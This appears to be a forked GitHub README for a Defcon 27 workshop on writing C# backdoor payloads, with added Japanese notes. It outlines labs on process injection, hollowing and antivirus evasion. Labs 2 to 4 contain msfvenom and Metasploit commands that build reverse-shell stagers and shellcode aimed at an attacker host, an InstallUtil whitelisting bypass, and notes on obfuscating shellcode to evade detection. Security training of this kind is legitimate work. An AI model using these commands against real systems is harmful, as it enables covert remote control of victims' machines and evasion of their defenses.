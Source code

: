 # Writing custom backdoor payloads with C#

This workshop aims to provide attendees hands-on experience on writing custom backdoor payloads using C# for the most common command and control frameworks including Metasploit, Powershell Empire and Cobalt Strike. The workshop consists in 8 lab exercises; each of the exercises goes over a different technique that leverages C# and .NET capabilities to obtain a reverse shell on a victim Windows host. The covered techniques include raw shellcode injection, process injection, process hollowing, runtime compilation, parent pid spoofing, antivirus bypassing, etc. At the end of this workshop attendees will have a clear understanding of these techniques both from an attack and defense perspective.

**Skill Level**: Intermediate

**Prerequisites**: Basic to intermediate programming/scripting skills. Prior experience with C# helps but not required.

**Materials**: Laptop with virtualization software. A Windows 10 virtual machine and a Kali Linux Virtual Machine.

The "Writing custom back payloads with C#" workshop was first presented at [Defcon 27](https://www.defcon.org/html/defcon-27/dc-27-workshops.html#velazco). 

## Authors

* **Mauricio Velazco** - [@mvelazco](https://twitter.com/mvelazco)

* **Olindo Verrillo** - [@olindoverrillo](https://twitter.com/olindoverrillo)

## Labs

### Lab 1 : Hello World

The goal of this lab is to implement the typical Hello World example with C#. The first exercise uses .NETs Console class to print “Hello World” while the second uses .NETs Platform Invocation Services feature to import and call the Win32 Api MessageBox.

### Lab 2 : Custom Meterpreter Stager

The goal of this lab is to write a custom Meterpreter stager with C# by leveraging the WebClient class to download meterpreter’s second stage and Win32 API functions to copy the second stage in memory and execute it.

```bash
#Run msfconsole and setup a listener:
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set LHOST [YOUR_IP]
set LPORT 8080

#Create stager by msfvenom
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=Your_Kali_IP LPORT=8080
-f exe > ~/reverse.exe
#twistd3とかでこのmalwareが送信するランダムなURLを確認する
```
確認したランダムなURLで[2.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/56a29e8fc1288a70bd0fbdd558014f9bf7396252/Labs/lab2/2.cs#L30) の箇所をUpdateする

### Lab 3 : Raw Shellcode Injection

The goal of this lab is to write a custom binary that injects a pre-defined shellcode into memory and executes it. Metasploit’s msfvenom will be used to generate the shellcode and the same Win32 API calls used in Lab 2 will be used to perform the execution.

```bash
#sample
msfvenom -a x64 -p windows/x64/messagebox Text="Hello from shellcode !" -f csharp
#generate shellcode for c#
msfvenom -a x64 -p windows/x64/meterpreter/reverse_https LHOST=YOUR_IP LPORT=8080 -f csharp

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 674 bytes
Final size of csharp file: 3446 bytes
byte[] buf = new byte[674] {
0xfc,0x48,0x83...
```
Inject to source code([1.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/56a29e8fc1288a70bd0fbdd558014f9bf7396252/Labs/lab3/1.cs#L30))

#### Bypassing Application Whitelisting ([2.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/master/Labs/lab3/2.cs))
```powershell
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe 2.cs
#Now for the bypass, we can execute the following command to get InstallUtil.exe to run our assembly, instead of launching it directly
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile=
/LogToConsole=false /U 2.exe
#we can abuse InstallUtil.exe and get it to run our code. This way we can bypass application whitelisting technologies and look less suspicious to an analyst.
```
#### Bypssing Applocker
https://jpn.nec.com/cybersecurity/blog/220916/index.html

### Lab 4 : Shellcode Obfuscation

The goal of this lab is to reduce detection of the custom payloads by signature based anti-malware. We can achieve this by obfuscating the shellcode generated by msfvenom using two common techniques: XOR and AES
- [1.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/56a29e8fc1288a70bd0fbdd558014f9bf7396252/Labs/lab4/1.cs#L28): でLab3のshellcodeをpasteし、xorしたやつを出力。keyはABCDE。
- [2.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/56a29e8fc1288a70bd0fbdd558014f9bf7396252/Labs/lab4/2.cs#L47): にそのxorしたやつをpaste,compile,実行。C2へアクセスが成功する。
- [3.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/56a29e8fc1288a70bd0fbdd558014f9bf7396252/Labs/lab4/3.cs#L14)上のやつのAES版。lab3の生のshellcodeをpaste。AES暗号化されたやつが出力される。先に表示されるやつが暗号化されたcode
- [4.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/56a29e8fc1288a70bd0fbdd558014f9bf7396252/Labs/lab4/4.cs#L38) にその暗号化したやつをpaste,compile,実行。C2へアクセスが成功する。
>

### Lab 5 : PowerShell without PowerShell.exe

The goal of this lab is to execute a Powershell script and avoid to use the powershell.exe binary by leveraging the .NET framework and C#. Using this technique, we will get a Powershell Empire agent.  

### Lab 6 : DLL Injection

The goal of this lab is to implement the DLL Injection technique using C# and obtain a reverse shell from a victim host. Using 3 different exercises, we will understand and implement the different steps for a successful injection.

### Lab 7 : Process Hollowing

The goal of this lab is to understand and implement the Process Hollowing technique using C# technique to obtain a reverse shell on a victim host. 

### Lab 8 : Parent Process Spoofing

The goal of the final lab is to leverage C# to spawn a new process spoofing its parent process and inject shellcode to it to obtain a reverse shell.

## Acknowledgments

Most of the labs on this workshop started from a Github repository/gist, a Stack Overflow code snippet or a Google search. Thank you to everyone who shares code for others to learn from.

* https://github.com/pwndizzle/c-sharp-memory-injection
* http://www.codingvision.net/miscellaneous/c-inject-a-dll-into-a-process-w-createremotethread
* https://github.com/re4lity/subTee-gits-backups
* https://www.codeproject.com/Articles/769741/Csharp-AES-bits-Encryption-Library-with-Salt
* https://gist.github.com/Arno0x/7f34e869cc847e088d3e107632e18294
* https://github.com/leoloobeek/csharp/blob/master/ExecutionTesting.cs



